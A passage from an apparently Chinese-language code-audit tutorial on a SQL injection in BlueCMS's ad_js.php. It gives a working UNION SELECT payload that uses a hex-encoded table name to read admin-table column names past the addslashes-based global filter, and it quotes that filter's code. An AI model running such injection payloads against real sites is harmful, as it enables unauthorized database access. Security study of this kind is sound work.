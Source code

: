 可以看见exp_content字段显示在第七列，接着是一系列的爆表库了，我们这里用sqlmap跑一下

![image](./img/bluecms7.png)

手工注入:
```
http://127.0.0.1/ad_js.php?ad_id=1 union select 1,2,3,4,5,6,GROUP_CONCAT(column_name) from information_schema.columns where table_name=0x626c75655f61646d696e
```

这里转换为十六进制原因是这里有个全局过滤，会对输入的变量含有单引号双引号等会过滤，位置在：

```php
require_once dirname(__FILE__) . '/include/common.inc.php';
```

查看common.inc.php文件，有一段代码如下：
```php
if(!get_magic_quotes_gpc())
{
	$_POST = deep_addslashes($_POST);
	$_GET = deep_addslashes($_GET);
	$_COOKIES = deep_addslashes($_COOKIES);
	$_REQUEST = deep_addslashes($_REQUEST);
}
```

也就是说get_magic_quotes_gpc为off的时候会触发POST、GET、COOKIE、REQUEST参数进行过滤，运用deep_addslashes函数过滤。追踪一下该函数：
```php
function deep_addslashes($str)
{
	if(is_array($str))
	{
		foreach($str as $key=>$val)
		{
			$str[$key] = deep_addslashes($val);
		}
	}
	else
	{
		$str = addslashes($str);
	}
	return $str;
}
```
